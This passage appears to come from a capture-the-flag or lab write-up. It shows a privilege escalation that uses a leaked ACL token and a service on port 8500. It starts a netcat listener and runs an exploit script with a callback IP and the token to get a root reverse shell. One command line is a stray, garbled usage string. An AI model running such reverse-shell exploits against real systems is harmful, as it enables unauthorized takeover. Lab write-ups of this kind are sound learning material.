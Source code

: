 The last encrypt line is the acl_token. Now let’s start a listener and run our exploit 

```bash
nc -lnvp 9001

python3 {sys.argv[0]} <rhost> <rport> <lhost> <lport> <acl_token>\n")

python3 exploit.py localhost 8500 10.10.16.2 9001 "l5/ztsxHF+OWZmTkjlLo92IrBBCRTTNDpdUpg2mJnmQ="

```

We got root shell!